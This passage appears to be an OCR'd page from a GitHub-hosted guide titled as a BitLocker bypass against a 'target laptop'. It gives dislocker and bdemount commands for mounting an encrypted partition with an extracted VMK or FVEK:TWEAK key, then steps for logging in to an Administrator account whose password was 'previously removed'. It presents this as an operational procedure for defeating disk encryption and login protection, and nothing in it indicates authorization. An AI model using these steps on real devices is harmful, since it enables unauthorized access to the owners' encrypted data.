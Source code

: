 
## 🔓 **PHASE 3: BITLOCKER BYPASS TESTING**

### **Step 3.1: Test VMK with dislocker**
```bash
# Create mount point
sudo mkdir -p /mnt/bitlocker

# Test VMK with dislocker (expect MAC errors initially)
sudo dislocker -v -K /tmp/vmk_binary.key /dev/loop[X]p[Y] /mnt/bitlocker
# Replace [X] with loop device number, [Y] with BitLocker partition number

# Try different metadata blocks if needed
sudo dislocker --force-block=1 -K /tmp/vmk_binary.key /dev/loop[X]p[Y] /mnt/bitlocker
sudo dislocker --force-block=2 -K /tmp/vmk_binary.key /dev/loop[X]p[Y] /mnt/bitlocker
sudo dislocker --force-block=3 -K /tmp/vmk_binary.key /dev/loop[X]p[Y] /mnt/bitlocker
```

### **Step 3.2: Alternative Tools (if dislocker fails)**
```bash
# Try libbde tools
sudo mkdir -p /mnt/bde
sudo apt install -y libbde-utils

# Test with bdemount (requires FVEK:TWEAK format)
bdemount -k [FVEK]:[TWEAK] /dev/loop[X]p[Y] /mnt/bde
# Replace [FVEK] and [TWEAK] with extracted values, [X][Y] with your device/partition

# Check BitLocker information
sudo bdeinfo /dev/loop[X]p[Y]
```

---

## 💻 **PHASE 4: DIRECT LAPTOP ACCESS**

### **Step 4.1: Boot Target Laptop**
```
🎯 CRITICAL: At this point, work directly on the target laptop

1. Power on the laptop
2. Boot to Windows login screen
3. Observe available user accounts
4. Note: Administrator account may be available
```

### **Step 4.2: Administrator Access (if password removed previously)**
```
If Administrator account accessible:
1. Click "Administrator" account
2. Enter empty password (if previously removed)
3. Access granted to Windows desktop
```
